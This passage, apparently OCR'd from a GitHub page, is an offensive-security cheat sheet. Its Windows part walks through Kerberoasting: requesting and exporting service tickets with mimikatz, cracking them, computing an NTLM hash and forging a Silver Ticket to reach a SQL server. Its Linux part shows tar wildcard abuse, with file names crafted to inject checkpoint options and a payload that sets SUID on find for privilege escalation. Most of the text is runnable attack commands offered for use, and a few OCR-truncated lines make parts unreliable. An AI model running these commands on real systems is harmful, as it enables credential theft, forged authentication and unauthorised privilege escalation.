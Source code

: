 PS> New-Object -TypeName System.IdentityModel.Tokens.KerberosRequestForSecurityToken -ArgumentList "MSSQLsvc/

mimikatz.exe
kerberos::list /export

Python ./tgsrepcrack.py wordlist.txt 1-00a10000-admin@MSSQLSvc~desktop.osbornepro.com~1433-osbornepro.com.kirbi

2.) CONVERT TO NTLM
PS> Import-Module DSInternals
PS> $Pwd = ConvertTo-SecureString <password>-AsPlainText -Force
PS> ConvertTo-NTHash $Pwd
<hash value>
PS> whoami /user
USER INFORMATION
----------------
User Name    SID
============ ==============================================
osbornepro/derp S-1-5-21<sid number>
3.) SILVER TICKET

mimikatz # kerberos::golden /domain:usav.org /sid:<sid number> /ptt /target:sqlserviceOnServer.osbornepro.com:1433 /service:MSSQLSvc /rc4:<hash value> /id:1103 /user:IveGotASilverTicket

# This can be used to join groups to elevate privledges

CMD> klist

# The above command will show your bogus tickets.

sqlcmd -S ServerWithSqlService.usav.org
SELECT SYSTEM_USER;
GO
====================
**LINUX**
====================
**Abusing Common Tools**
A nice collection of abusable tools can be found at GTFOBins.
https://gtfobins.github.io/
**Abusing Tar**

If  tar is allowed in sudoers with a wildcard command we can abuse that for  privilege escalation. Filenames will be interpreted as command line  arguments therefore we can create the following setup:

Create these files in the directory
-rw-r–r–. 1 xxx xxx 0 Oct 28 19:19 –checkpoint=1
-rw-r–r–. 1 xxx xxx 0 Oct 28 19:17 –checkpoint-action=exec=sh payload.sh
-rwxr-xr-x. 1 xxx xxx 12 Oct 28 19:17 payload.sh
To create the files use:
echo "chmod u+s /usr/bin/find" > payload.sh
echo "" > "--checkpoint-action=exec=sh payload.sh"
echo "" > --checkpoint=1
